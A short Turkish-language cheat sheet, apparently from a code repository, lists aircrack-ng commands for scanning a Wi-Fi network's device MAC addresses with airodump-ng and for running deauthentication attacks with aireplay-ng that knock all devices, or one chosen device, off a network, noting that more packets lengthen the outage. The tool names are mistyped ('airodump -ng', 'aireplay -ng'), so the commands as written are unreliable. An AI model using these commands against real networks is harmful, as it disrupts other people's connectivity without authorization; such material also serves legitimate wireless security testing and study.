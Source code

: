 # Ağdaki Cihazların MAC Adreslerini Görme
```
airodump -ng --channel X (kanal numarası) --bssid XX:XX:XX:XX:XX:XX (MAC adresi) --write airodumptest (Sonuçları yazdıracağımız 
dosya adı) wlan0
```
# Ağdaki Cihazlara Deauth Saldırısı Yapma
>Ağdaki Bütün Cihazlara Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX wlan0mon
```

>Ağdaki Belirli Cihaza Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```

* A: Gönderilecek paket sayısı, sayı büyüdükçe ağda düşme süresi artar
* -a:  Ağın MAC adresi
* -c:  Saldırı Yapılacak Cihazın MAC adresi
